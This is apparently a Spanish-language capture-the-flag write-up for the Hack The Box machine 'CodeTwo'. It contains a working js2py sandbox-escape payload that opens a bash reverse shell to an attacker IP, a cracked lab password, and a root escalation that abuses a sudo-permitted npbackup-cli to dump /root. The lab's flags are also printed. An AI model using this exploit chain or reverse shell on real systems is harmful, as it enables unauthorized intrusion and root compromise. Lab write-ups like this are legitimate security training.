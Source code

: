 ```yaml
---
layout: post
title:  "CodeTwo"
tags: ["RCE", "CVE"]
categories: ["Linux", Medium]
image: "https://htb-mp-prod-public-storage.s3.eu-central-1.amazonaws.com/avatars/992c992925936b399906f2a78a740eea.png"
---
```


```java
sudo nmap -p22,8000 -sC -sV -oN nmap/target 10.10.11.82
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-08-20 15:25 CEST
Nmap scan report for 10.10.11.82
Host is up (0.044s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 a0:47:b4:0c:69:67:93:3a:f9:b4:5d:b3:2f:bc:9e:23 (RSA)
|   256 7d:44:3f:f1:b1:e2:bb:3d:91:d5:da:58:0f:51:e5:ad (ECDSA)
|_  256 f1:6b:1d:36:18:06:7a:05:3f:07:57:e1:ef:86:b4:85 (ED25519)
8000/tcp open  http    Gunicorn 20.0.4
|_http-title: Welcome to CodeTwo
|_http-server-header: gunicorn/20.0.4
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.56 seconds
```

Página web

![](/assets/machines/codetwo.htb/images/daa66ca7-c99d-4a22-a47f-8e1ba2a76651.webp)

El botón "DOWNLOAD APP" descargará un .zip, el cual contiene el código fuente de la aplicación.

```py
@app.route('/run_code', methods=['POST'])
def run_code():
    try:
        code = request.json.get('code')
        result = js2py.eval_js(code)
        return jsonify({'result': result})
    except Exception as e:
        return jsonify({'error': str(e)})
```

Se esta usando la librería js2py.

> js2py: Translates JavaScript to Python code. Js2Py is able to translate and execute virtually any JavaScript code.


Registro de usuario

![](/assets/machines/codetwo.htb/images/d13495d3-1767-419b-aef7-b241b7a3a249.webp)

Login de usuario

![](/assets/machines/codetwo.htb/images/1c302ac8-7595-4449-ae27-59a2ec7e1dba.webp)

Podemos ejecutar código Javascript que será convertido a Python por medio de la líbreria.

![](/assets/machines/codetwo.htb/images/0f2b2967-4527-45fd-be5d-3ab196726646.webp)

El CVE-2024-28307 nos permite ejecutar código (RCE), usaremos esto para ejecutar un reverse shell.

https://github.com/Marven11/CVE-2024-28397-js2py-Sandbox-Escape

```javascript
let cmd = "/bin/bash -c '/bin/bash -i >& /dev/tcp/10.10.14.73/9000 0>&1'"
let hacked, bymarve, n11
let getattr, obj

hacked = Object.getOwnPropertyNames({})
bymarve = hacked.__getattribute__
n11 = bymarve("__getattribute__")
obj = n11("__class__").__base__
getattr = obj.__getattribute__

function findpopen(o) {
    let result;
    for(let i in o.__subclasses__()) {
        let item = o.__subclasses__()[i]
        if(item.__module__ == "subprocess" && item.__name__ == "Popen") {
            return item
        }
        if(item.__name__ != "type" && (result = findpopen(item))) {
            return result
        }
    }
}

n11 = findpopen(obj)(cmd, -1, null, -1, -1, -1, null, null, true).communicate()
```


Obtención de reverse shell
![](/assets/machines/codetwo.htb/images/d1d4d716-635b-4d30-bd82-e71a19bdbfd2.webp)

Encontramos el archivo `user.db` con unos hashes.

![](/assets/machines/codetwo.htb/images/17b914eb-8c21-40eb-846c-1a89d67686b7.webp)

Obtenemos las credenciales del usuario marco.

![](/assets/machines/codetwo.htb/images/830783fb-075e-4127-8145-2de29a3721f4.webp)

Credenciales crackeadas: ``marco:sweetangelbabylove``

```
marco@codetwo:/home/app/app/instance$ sudo -l
Matching Defaults entries for marco on codetwo:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User marco may run the following commands on codetwo:
    (ALL : ALL) NOPASSWD: /usr/local/bin/npbackup-cli
```

Existe un archivo ``npbackup.conf``
```
drwx------ 7 root root  4096 Apr  6 03:50 backups
-rw-rw-r-- 1 root root  2893 Jun 18 11:16 npbackup.conf
-rw-r----- 1 root marco   33 Aug 20 14:30 user.txt
```

Se puede ejecutar el comando `/usr/local/bin/npbackup-cli` como root.

```
marco@codetwo:~$ cp npbackup.conf /tmp
marco@codetwo:~$ cd /tmp
marco@codetwo:/tmp$ nano npbackup.conf
```

Copiamos y modificamos el archivo `npbackup.conf` para hacer un backup a `/root`.

```
conf_version: 3.0.1
audience: public
repos:
  default:
    repo_uri:
      __NPBACKUP__wd9051w9Y0p4ZYWmIxMqKHP81/phMlzIOYsL01M9Z7IxNzQzOTEwMDcxLjM5NjQ0Mg8PDw8PDw8PDw8PDw8PD6yVSCEXjl8/9rIqYrh8kIRhlKm4UPcem5kIIFPhSpDU+e+E__NPBACKUP__
    repo_group: default_group
    backup_opts:
      paths:
      - /root
<SNIP>
```

Realizar un backup con el siguiente comando
```
marco@codetwo:/tmp$ sudo /usr/local/bin/npbackup-cli -c ./npbackup.conf -b 
2025-08-20 14:32:28,060 :: INFO :: npbackup 3.0.1-linux-UnknownBuildType-x64-legacy-public-3.8-i 2025032101 - Copyright (C) 2022-2025 NetInvent running as root
2025-08-20 14:32:28,092 :: INFO :: Loaded config E1057128 in /tmp/npbackup.conf
2025-08-20 14:32:28,104 :: INFO :: Searching for a backup newer than 1 day, 0:00:00 ago
2025-08-20 14:32:30,907 :: INFO :: Snapshots listed successfully
<SNIP>
no parent snapshot found, will read all files

Files:          15 new,     0 changed,     0 unmodified
Dirs:            8 new,     0 changed,     0 unmodified
Added to the repository: 190.612 KiB (39.879 KiB stored)

processed 15 files, 197.660 KiB in 0:00
snapshot 263ce169 saved
ner took 7.530214 seconds for backup
2025-08-20 14:32:35,632 :: INFO :: Operation finished
2025-08-20 14:32:35,648 :: INFO :: ExecTime = 0:00:07.590910, finished, state is: errors.
2025-08-20 14:32:35,629 :: INFO :: Backend finished with success
2025-08-20 14:32:35,631 :: INFO :: Processed 197.7 KiB of data
2025-08-20 14:32:35,631 :: ERROR :: Backup is smaller than configured minmium backup size
2025-08-20 14:32:35,631 :: ERROR :: Operation finished with failure
2025-08-20 14:32:35,632 :: INFO :: Runner took 7.530214 seconds for backup
2025-08-20 14:32:35,632 :: INFO :: Operation finished
2025-08-20 14:32:35,648 :: INFO :: ExecTime = 0:00:07.590910, finished, state is: errors.
```

Visualizar que el snapshot se ha realizado correctamente.

```
arco@codetwo:/tmp$ sudo /usr/local/bin/npbackup-cli -c ./npbackup.conf -s
2025-08-20 14:32:42,326 :: INFO :: npbackup 3.0.1-linux-UnknownBuildType-x64-legacy-public-3.8-i 2025032101 - Copyright (C) 2022-2025 NetInvent running as root
2025-08-20 14:32:42,564 :: INFO :: Loaded config E1057128 in /tmp/npbackup.conf
2025-08-20 14:32:42,579 :: INFO :: Listing snapshots of repo default
ID        Time                 Host        Tags        Paths          Size
---------------------------------------------------------------------------------
35a4dac3  2025-04-06 03:50:16  codetwo                 /home/app/app  48.295 KiB
263ce169  2025-08-20 14:32:32  codetwo                 /root          197.660 KiB
---------------------------------------------------------------------------------
2 snapshots
2025-08-20 14:32:48,423 :: INFO :: Snapshots listed successfully
2025-08-20 14:32:48,423 :: INFO :: Runner took 5.844779 seconds for snapshots
2025-08-20 14:32:48,423 :: INFO :: Operation finished
2025-08-20 14:32:48,431 :: INFO :: ExecTime = 0:00:06.106899, finished, state is: success.
```

Usar el comando ``-f ``y ``--dump`` para mostrar el fichero `/root/root.txt`

```
marco@codetwo:/tmp$ sudo /usr/local/bin/npbackup-cli -c ./npbackup.conf -f --dump /root/root.txt
ea8ebc6fdb4eba19106bc30bb470d399
```